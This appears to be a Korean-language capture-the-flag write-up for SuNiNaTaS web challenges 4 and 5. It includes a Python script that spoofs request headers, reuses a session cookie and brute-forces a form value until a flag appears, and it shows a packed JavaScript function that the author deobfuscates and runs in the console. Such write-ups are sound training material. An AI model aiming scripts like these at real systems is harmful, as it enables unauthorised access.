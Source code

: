 
`User-Agent : SuNiNaTaS` 로 변경해도 포인트가 늘어나지 않아서 파이썬 코드를 작성 

```python 
SuNiNaTaSimport requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

url = "https://suninatas.com/challenge/web04/web04_ck.asp"
cookies = {
    "ASPSESSIONIDSCTRDSBQ": "PHEHBLCAFPHCIDNGLNAPDFAL"
}
headers = {
    "User-Agent": "SuNiNaTaS",
    "Referer": "https://suninatas.com/challenge/web04/web04.asp"
}

# total 값을 1부터 50까지 시도
for total in range(1, 51):
    data = {"total": str(total)}
    res = requests.post(url, headers=headers, cookies=cookies, data=data, verify=False)
    
    print(f"[TRY] total={total} → {res.status_code}")

    # 성공 조건: flag, FLAG, 또는 특정 문자열이 포함되었는지 체크
    if "FLAG" in res.text or "flag" in res.text or "P4C{" in res.text:
        print(f"\n[✔] Success with total={total}")
        print(res.text)
        break
```

이러니까 그냥 나오더라.. 세션값을 고치고 다 해봣는데.. 결국 브루트포스라니 

## 웹해킹 5번 
<img width="322" alt="Image" src="https://github.com/user-attachments/assets/4283b0e6-2d4b-4fff-9d92-13a0732199ab" />


```scirpt
eval(function(p,a,c,k,e,r){e=function(c){return c.toString(a)};if(!''.replace(/^/,String)){while(c--)r[e(c)]=k[c]||e(c);k=[function(e){return r[e]}];e=function(){return'\\w+'};c=1};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p}('g l=m o(\'0\',\'1\',\'2\',\'3\',\'4\',\'5\',\'6\',\'7\',\'8\',\'9\',\'a\',\'b\',\'c\',\'d\',\'e\',\'f\');p q(n){g h=\'\';g j=r;s(g i=t;i>0;){i-=4;g k=(n>>i)&u;v(!j||k!=0){j=w;h+=l[k]}}x(h==\'\'?\'0\':h)}',34,34,'||||||||||||||||var|result||start|digit|digitArray|new||Array|function|PASS|true|for|32|0xf|if|false|return'.split('|'),0,{}
```
이렇게 스크립트가 난독화 되어있고 이걸 복호화 하면 

```
function PASS(n) {
  var result = '';
  var start = true;
  for (var i = 32; i > 0;) {
    i -= 4;
    var digit = (n >> i) & 0xf;
    if (!start || digit != 0) {
      start = false;
      result += digitArray[digit];
    }
  }
  return (result == '' ? '0' : result);
}
```

콘솔창에서 문제에 힌트로 주어진 숫자를 PASS(12342046413275659) 넣고 돌리면 바로 풀리는 문제였다 

